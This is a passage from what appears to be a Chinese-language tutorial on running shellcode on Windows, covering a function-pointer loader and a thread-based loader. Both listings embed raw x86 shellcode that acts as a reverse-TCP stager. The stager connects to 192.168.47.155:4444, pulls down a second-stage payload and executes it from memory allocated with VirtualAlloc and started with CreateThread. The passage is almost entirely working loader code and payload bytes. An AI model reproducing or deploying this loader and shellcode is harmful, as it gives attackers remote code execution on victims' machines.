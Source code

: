 ```cpp
"\x54\x68\xd2\x53\x6e\xfc\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29"
"\xc4\x54\x50\x68\x9c\x13\x41\xc4\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\x2c\x9b\xfc\xa4\x50\x58\xff\xd5\x97\x6a\x10\x56\x57\x68\xb6\x59\xc0"
"\x0e\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\xe8\xd9\xce\x36\xff\xd5\x83\xf8"
"\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68"
"\x9c\xed\x92\x66\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\xe8\xd9"
"\xce\x36\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a"
"\x00\x50\x68\x3e\xba\x17\xa3\xff\xd5\x57\x68\xe6\xfc\xe1\xe2\xff"
"\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xfc\xd3\xf4\x5e\x6a\x00\x53"
"\xff\xd5";

void main() {   
	((void(*)(void)) & buf)();  //执行ShellCode
}
```



# 3.创建线程加载

上述两种方法都需要将data节的内存设置成可读可写可执行,  以下这段代码的主要作用是在内存中分配一段可执行的内存空间，将buf数组中的内容复制到该内存空间，并创建一个新线程来执行这段内存中的代码

```cpp
#include <Windows.h>

unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x07\x01\xc7\x49\x75\xef\x52"
"\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c"
"\x01\xd0\x8b\x48\x18\x8b\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49"
"\x8b\x34\x8b\x31\xff\x01\xd6\x31\xc0\xc1\xcf\x07\xac\x01\xc7\x38"
"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89"
"\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f"
"\x54\x68\xd2\x53\x6e\xfc\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29"
"\xc4\x54\x50\x68\x9c\x13\x41\xc4\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\x2c\x9b\xfc\xa4\x50\x58\xff\xd5\x97\x6a\x10\x56\x57\x68\xb6\x59\xc0"
"\x0e\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\xe8\xd9\xce\x36\xff\xd5\x83\xf8"
"\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68"
"\x9c\xed\x92\x66\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\xe8\xd9"
"\xce\x36\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a"
"\x00\x50\x68\x3e\xba\x17\xa3\xff\xd5\x57\x68\xe6\xfc\xe1\xe2\xff"
"\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xfc\xd3\xf4\x5e\x6a\x00\x53"
"\xff\xd5";


void main() {

	// 申请一块可进行读写操作的内存
    LPVOID pMemory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // 将buf数组中的内容复制到刚刚分配的内存中
    RtlMoveMemory(pMemory, buf, sizeof(buf));

    // 创建一个新的线程来执行内存中的代码
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)pMemory, NULL, 0, NULL);
```